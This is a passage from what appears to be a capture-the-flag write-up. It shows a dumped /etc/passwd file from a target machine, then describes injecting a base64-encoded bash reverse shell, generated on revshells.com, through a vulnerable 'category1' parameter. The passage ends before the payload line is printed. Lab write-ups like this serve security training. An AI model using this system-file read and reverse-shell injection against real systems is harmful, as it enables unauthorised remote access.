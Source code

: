 The contents of `/etc/passwd`

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

### Foothold

Moving to get a foothold now and expanding on our previous payload, we head over to [Revshells](https://revshells.com/) to generate a reverse shell payload. We can generate a `bash` reverse shell payload and paste it into the `category1` parameter. We need to base64 encode it, then pipe it to `base64 -d` on the target machine.

To get to this point, I had to try a few reverse shells before I found the one that worked and the method as well. Originally, I had just been trying a straight URL encoded netcat shell, but it would connect back to my machine and then after a few seconds, nginx would time out and the connection would be dropped. I finally landed on the below bash reverse shell payload.

